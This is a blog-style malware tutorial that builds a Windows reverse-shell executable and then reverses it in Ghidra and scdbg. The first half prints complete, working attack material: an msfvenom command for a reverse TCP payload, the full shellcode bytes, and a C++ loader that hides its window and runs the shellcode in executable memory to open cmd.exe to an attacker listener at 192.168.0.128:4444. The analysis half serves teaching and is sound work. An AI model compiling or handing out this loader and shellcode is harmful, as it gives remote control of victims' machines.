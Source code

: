 ```yaml
---
title:  "Malware 101: Develop and Analyze our own malware"
tags: Malware-Development Reverse-Engineering
---
```


In this post, we'll learn together how to write a basic malware program that does a reverse shell connection (using shellcode) and analyze our own compiled malware. We'll play around with C code using Visual Studio IDE and MSVenom for the creation of the shellcode. The maldev and malware reversing is only for education purpose only!

# Malware development
## Create a new project in Visual Studio
We'll start with creating a new project. Choose the "Console App". Make sure you choose C++.

![image](https://user-images.githubusercontent.com/56353946/134101602-d20f27df-8714-4e1f-b3c9-ee7e0b549ef6.png)

Name your new project. I'm gonna use "revshell_exe".

![image](https://user-images.githubusercontent.com/56353946/134101656-1e5e23a5-218e-47e2-8a66-046496247a28.png)

Now, let's go to our Kali and fire up `msvenom` to generate our Windows reverse shell's shellcode to embed in our malware executable.

## Generate reverse shell's shellcode using MSVenom
Before we generate a "shellcode". Some of the beginners might have no idea what does the shellcode means. So, "Shellcode" is a set of instructions that executes a command in software to take control of or exploit a compromised machine. In our case here, our shellcode is to gain the remote system shell of our victim. 
The shellcode is not only for shell access, instead there's much other shellcode action that could be done by the author like privilege escalation and many more.

To generate the shellcode using msvenom, run this command below:
```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f c
```
Example:
![image](https://user-images.githubusercontent.com/56353946/134104090-9e583dc7-1a98-448a-b3b2-cade2e54b17a.png)

All we need now is to copy the shellcode I highlighted in the red box and paste it into our `main` function inside VS IDE.

## Coding
When it comes to programming, you need to be familiar with C and WinAPI. Below codes, I've put some comments to guide and understand what does the code does.

```
#include <Windows.h>

int main()
{
    // Run our executable console app in the background
    ShowWindow(FindWindowA("ConsoleWindowClass", NULL), false);
    
    // MSVenom shellcode payload here
    unsigned char buf[] =
        "\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
        "\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
        "\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
        "\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
        "\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
        "\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
        "\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
        "\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
        "\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
        "\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c"
        "\x77\x26\x07\xff\xd5\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
        "\x29\x80\x6b\x00\xff\xd5\x50\x50\x50\x50\x40\x50\x40\x50\x68"
        "\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x05\x68\xc0\xa8\x00\x80\x68"
        "\x02\x00\x11\x5c\x89\xe6\x6a\x10\x56\x57\x68\x99\xa5\x74\x61"
        "\xff\xd5\x85\xc0\x74\x0c\xff\x4e\x08\x75\xec\x68\xf0\xb5\xa2"
        "\x56\xff\xd5\x68\x63\x6d\x64\x00\x89\xe3\x57\x57\x57\x31\xf6"
        "\x6a\x12\x59\x56\xe2\xfd\x66\xc7\x44\x24\x3c\x01\x01\x8d\x44"
        "\x24\x10\xc6\x00\x44\x54\x50\x56\x56\x56\x46\x56\x4e\x56\x56"
        "\x53\x56\x68\x79\xcc\x3f\x86\xff\xd5\x89\xe0\x4e\x56\x46\xff"
        "\x30\x68\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6"
        "\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb"
        "\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5";

    //Allocate memory for the shellcode
    PVOID shellcode = VirtualAlloc(0, sizeof buf, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    //Copies contents of memory block to destination
    RtlCopyMemory(shellcode, buf, sizeof buf);

    //Execute shellcode as new thread
    DWORD threadID;
    HANDLE handleThread = CreateThread(NULL, 0, (PTHREAD_START_ROUTINE)shellcode, NULL, 0, &threadID);

    //Wait till thread terminates
    WaitForSingleObject(handleThread, INFINITE);
}
```

If you don't understand the WinAPI, here is some documentation from Microsoft:

0. ShowWindow = [Microsoft documentation link](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-showwindow)
1. VirtualAlloc = [Microsoft documentation link](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc)
2. RtlCopyMemory = [Microsoft documentation link](https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/wdm/nf-wdm-rtlcopymemory)
3. CreateThread = [Microsoft documentation link](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread)
4. WaitForSingleObject = [Microsoft documentation link](https://docs.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitforsingleobject)

## Test out our malware
Check for any errors in your code and now we are good to go.

In our Kali, let's listen to our reverse shell. In my case, my port will be on 4444.
```
┌──(kali㉿kali)-[~/Downloads]
└─$ nc -lvp 4444                                                             
listening on [any] 4444 ...
```

In "Solution Configurations", change `Debug` to `Release`. Then, click Run icon.

![image](https://user-images.githubusercontent.com/56353946/134106107-ea72aebb-989b-411e-8bc8-1615343f21c1.png)

After the program executed, our Kali will gain the remote shell cmd.

![image](https://user-images.githubusercontent.com/56353946/134106322-be7021e7-b46e-4827-a00b-a4aa78dfd062.png)

Our shellcode and malware successfully execute.

# Malware analysis and reversing
Now copy your malicious executable from Release folder into your malware analysis lab and start analysing + reversing the program.

## Ghidra analysis
The result of decompiler of Ghidra have a slightly changes from our code. This is due to the how compiler compiled our executable and how the Ghidra translate from the assembly code.

Here the explaination of the decompiled code:
![image](https://user-images.githubusercontent.com/56353946/134110659-9ddd86a9-b7c4-41b4-b290-38cd6128b325.png)

## Extract shellcode
From the decompiler code, we can locate the shellcode in the Ghidra.
![image](https://user-images.githubusercontent.com/56353946/134120641-35e9e82b-f9ef-4a72-ac4b-7287fc654362.png)

This will bring us to the shellcode bytes in the "Listing view".
![image](https://user-images.githubusercontent.com/56353946/134120921-119550ac-b403-4ac9-bb6f-61fa2595368f.png)

To extract the shellcode, select all the bytes until the finish.
![image](https://user-images.githubusercontent.com/56353946/134121249-9c8cb16d-ca5e-44ab-91b2-71f6b94d077f.png)

Go to Window tab > Bytes: filename.exe. The selected bytes now also been selected in the hex view.
![image](https://user-images.githubusercontent.com/56353946/134121356-61fe7c0b-d3df-4ec3-aaf9-6a9cef4774ca.png)

Copy the bytes and paste into hex editor like HxD. And save it.
![image](https://user-images.githubusercontent.com/56353946/134121520-9771cd80-3114-4689-a466-31ae8b9e5211.png)

Now to analyze the shellcode, there's some options:
1. Use scdbg <-- We will use this
2. Use jmp2it
3. Convert the shellcode into executable. And debug the executable using x32dbg.

## Shellcode analysis
The output below of the scdbg for our shellcode is quite helpful. In our case here, the shellcode was easy to be analyzed. At sometimes, a complex shellcode will not be a simpler like this

![image](https://user-images.githubusercontent.com/56353946/134122559-81100c4a-f7a0-4cc4-83fc-23006b87a167.png)

`LoadLibraryA(ws2_32)`: First, the process will load the DLL file "ws2_32.dll" using LoadLibrary API.

`WSAStartup(190)`: After that, it calls WSAStartup function to initiate the utilization of the Winsock DLL by the current process.

`WSASocket(af=2, tp=1, proto=0, group=0, flags=0)`: It then call the WSASocket to creates a socket.

If we refer the documentation of WSASocket, here the explaination about the number in the prameter:
- af=2 -> The Internet Protocol version 4 (IPv4) address family. 
- tp=1 -> SOCK_STREAM
- proto=0 -> the service provider will choose the protocol to use
- group=0 -> No group operation is performed.
- flags=0 -> A set of flags used to specify additional socket attributes.

`connect(h=42, host: 192.168.0.128 , port: 4444 ) = 71ab4a07`: At this line, the program will establishes a connection to a specific socket. The parameter contains IP of the attacker and his port which will be used to get a reverse shell.

`CreateProcessA( cmd,  ) = 0x1269`: Our shellcode then executes cmd.exe by calling CreateProcessA API

`WaitForSingleObject(h=1269, ms=ffffffff)`: This function will terminate the program when our reverse shell been killed.

`ExitProcess(0)`: Exit and terminate current process.

# Sum up
In the conclusion, we've learn how to develop a malware that leverage our metasploit shellcode to create the connection to our C2. In the code, we can see that the malware first will be run in the background. And then it allocates some memory space for our shellcode. After allocating the memory region, our shellcode is then being copy to the allocated memory. Then, it uses CreateThread API to execute the shellcode. In the shellcode, it will connect to our IP and port to gain the reverse shell of cmd.exe.
